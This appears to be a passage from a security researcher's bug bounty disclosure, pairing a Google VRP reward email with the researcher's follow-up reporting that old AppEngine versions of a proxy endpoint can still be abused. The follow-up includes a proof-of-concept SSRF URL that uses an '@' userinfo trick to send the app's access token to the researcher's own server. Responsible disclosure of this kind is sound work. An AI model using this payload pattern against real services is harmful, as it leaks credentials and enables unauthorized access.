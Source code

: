 **Vendor - 2021-06-24 18:20**

** NOTE: This is an automatically generated email **

Hello,

Regarding our Vulnerability Reward Program: The VRP panel has decided to issue a reward of $3133.70 for your report. Congratulations!

Rationale for this decision:
Thanks for reporting the bypass!

Important: If you aren't already registered with Google as a supplier, p2p-vrp@google.com will reach out to you. If you have registered in the past, no need to repeat the process – you can sit back and relax, and we will process the payment soon.

Note: This month, we are changing our payment processing backend. There might be small delays (a few weeks) with how the payments are processed. Thanks for understanding, and sorry for the trouble!

If you have any payment related requests, please direct them to p2p-vrp@google.com. Please remember to include the subject of this email and the email address that the report was sent from.

Regards,

Google Security Bot

P.S. Two other things we'd like to mention:

* If you’d like us to add your name to our Hall of Fame at https://bughunter.withgoogle.com/rank/hof, please create a profile at https://bughunter.withgoogle.com/new_profile if you haven't already done so.
* We encourage you to sign up for our Vulnerability Research Grants program at https://www.google.com/about/appsecurity/research-grants/, where we issue monetary payments to VRP researchers, even when no vulnerabilities are found.


--
How did we do? Please fill out a short anonymous survey (https://goo.gl/IR3KRH).

---

**Me - 2021-08-28 13:12**

Hi,

So I bypassed it again. The old vulnerable versions are still there on the AppEngine app, and even though the latest version is fixed, you can still call the old versions of the `default` service.

POC:
```
https://b347699687-dev-gokulr-dot-default-dot-cxl-services.appspot.com/proxy?url=https://sfmnev.vps.xdavidhu.me\@jobs.googleapis.com/
```

*(This time I have sent two requests to my VM and one to GitHub Pages (`https://xdavidhu.me/`). The GAE app's access token is in the `authorization` header.)*

Thank you, \
David

---
